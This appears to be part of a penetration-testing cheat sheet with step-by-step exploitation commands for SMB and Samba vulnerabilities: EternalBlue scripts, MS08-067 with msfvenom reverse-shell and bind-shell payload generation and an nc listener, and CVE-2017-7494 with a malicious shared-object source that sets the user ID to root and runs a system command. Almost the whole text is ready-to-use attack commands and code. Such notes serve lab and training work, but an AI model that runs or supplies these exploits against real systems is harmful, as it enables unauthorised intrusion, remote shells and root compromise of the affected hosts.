 ```
python eternalblue_exploit<NUMBER>.py <IP> shellcode/sc_all.bin

May need to run it multiple times
```

##### If this doesn't work, try this one

```
python zzz_exploit.py <IP>
```

#### MS08-067

```
# Download exploit code
git clone https://github.com/andyacer/ms08_067.git

# Generate payload
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
msfvenom -p windows/shell_bind_tcp RHOST=<IP> LPORT=<PORT> EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

# Modify
Modify ms08_067_2018.py and replace the shellcode variable by the one generated with msfvenom.

# Listener
nc -lvp <PORT>

# Exploit
python ms08_067_2018.py <IP> <NUMBER> 445
```

#### CVE-2017-7494

```
# Download exploit code
git clone https://github.com/joxeankoret/CVE-2017-7494
```

Create a new file named poc.c :

```
#include <stdio.h>
#include <stdlib.h>

int samba_init_module(void)
{
	setresuid(0,0,0);
	system("ping -c 3 <IP>");
}
```

```
# Build
gcc -o test.so -shared poc.c -fPIC
```

